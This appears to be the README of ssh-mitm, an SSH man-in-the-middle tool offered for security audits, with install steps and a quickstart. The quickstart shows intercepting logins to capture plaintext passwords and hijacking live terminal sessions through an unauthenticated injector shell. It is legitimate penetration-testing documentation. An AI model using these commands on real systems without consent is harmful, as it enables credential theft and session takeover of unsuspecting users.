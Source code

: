 # ssh-mitm - intercept ssh traffic

**man in the middle (mitm) server for security audits supporting public key authentication, session hijacking and file manipulation**

[![CodeFactor](https://www.codefactor.io/repository/github/ssh-mitm/ssh-mitm/badge)](https://www.codefactor.io/repository/github/ssh-mitm/ssh-mitm)
[![Github version](https://img.shields.io/github/v/release/ssh-mitm/ssh-mitm?label=github&logo=github)](https://github.com/ssh-mitm/ssh-mitm/releases)
[![PyPI version](https://img.shields.io/pypi/v/ssh-mitm.svg?logo=pypi&logoColor=FFE873)](https://pypi.org/project/ssh-mitm/)
[![Supported Python versions](https://img.shields.io/pypi/pyversions/ssh-mitm.svg?logo=python&logoColor=FFE873)](https://pypi.org/project/ssh-mitm/)
[![PyPI downloads](https://pepy.tech/badge/ssh-mitm/month)](https://pepy.tech/project/ssh-mitm)
[![GitHub](https://img.shields.io/github/license/ssh-mitm/ssh-mitm.svg)](https://github.com/ssh-mitm/ssh-mitm/blob/master/LICENSE)


![SSH-MITM example](https://ssh-mitm.at/img/mitm-example.png)

## Installation of SSH-MITM


This part of the documentation covers the installation of SSH-MITM.
The first step to using any software package is getting it properly installed.

### $ python -m pip install ssh-mitm


To install SSH-MITM, simply run this simple command in your terminal of choice:

    $ python -m pip install ssh-mitm


### Get the Source Code


SSH-MITM is actively developed on GitHub, where the code is always available.

You can either clone the public repository:

    $ git clone git://github.com/ssh-mitm/ssh-mitm.git

Or, download the tarball:

    $ curl -L https://github.com/ssh-mitm/ssh-mitm/archive/master.tar.gz | tar xz


Once you have a copy of the source, you can embed it in your own Python package, or install it into your site-packages easily:

    $ cd ssh-mitm-master
    $ python -m pip install .

## Quickstart


Eager to get started? This page gives a good introduction in how to get started with SSH-MITM.

First, make sure that:

* SSH-MITM is :ref:`installed <Installation of SSH-MITM>`
* SSH-MITM is up-to-date

Let’s get started with some simple examples.


### Start the ssh-mitm proxy server


Starting an intercepting mitm-ssh server with password authentication is very simple.

All you have to do is run this command in your terminal of choice.

    $ ssh-mitm --remote-host 192.168.0.x

Now let's try to connect to the ssh-mitm server.
The ssh-mitm server is listening on port 10022.

    $ ssh -p 10022 user@proxyserver

You will see the credentials in the log output.

    2021-01-01 11:38:26,098 [INFO]  Client connection established with parameters:
        Remote Address: 192.168.0.x
        Port: 22
        Username: user
        Password: supersecret
        Key: None
        Agent: None


### Hijack a SSH terminal session


Getting the plain text credentials is only half the fun.
SSH-MITM proxy server is able to hijack a ssh session and allows you to interact with it.

Let's get startet with hijacking the session.

    $ ssh-mitm --remote-host 192.168.0.x --ssh-interface ssh_proxy_server.plugins.ssh.mirrorshell.SSHMirrorForwarder

Connect your ssh client with the ssh-mitm proxy.

    $ ssh -p 10022 user@proxyserver

When a client connects, the ssh-mitm proxy server starts a new server, where you can connect with another ssh client.
This server is used to hijack the session.

    2021-01-01 11:42:43,699 [INFO]  created injector shell on port 34463. connect with: ssh -p 34463 127.0.0.1

To hijack the session, you can use your favorite ssh client. This connection does not require authentication.

    $ ssh -p 34463 127.0.0.1

After you are connected, your session will only be updated with new responses, but you are able to execute commands.

Try to execute somme commands in the hijacked session or in the original session.

The output will be shown in both sessions.


## Authors

- Manfred Kaiser
- Simon Böhm
